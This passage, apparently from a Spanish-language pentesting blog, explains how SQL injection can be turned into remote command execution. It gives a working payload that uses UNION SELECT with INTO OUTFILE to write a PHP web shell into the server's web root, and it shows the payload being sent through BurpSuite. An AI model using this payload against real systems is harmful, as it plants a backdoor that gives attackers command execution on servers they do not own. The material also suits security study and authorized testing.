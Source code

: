 ### SQL Injection a RCE (Remote Command Execution)

Por medio de la siguiente inyección es posible por la cláusula ```UNION``` combinar los resultados de dos o más SELECTs o para este caso con la cláusula ```INTO OUTFILE``` en un solo resultado que permite escribir los resultados de un SELECT en un archivo en el sistema de archivos del servidor.

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

Aplicamos esta inyección en BurpSuite de la siguiente forma:

[![sqlinjectrce1](/images/sqlinjectrce1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectrce1.png)

Luego al hacer un "follow redirection" podemos confirmar la inyección exitosa.
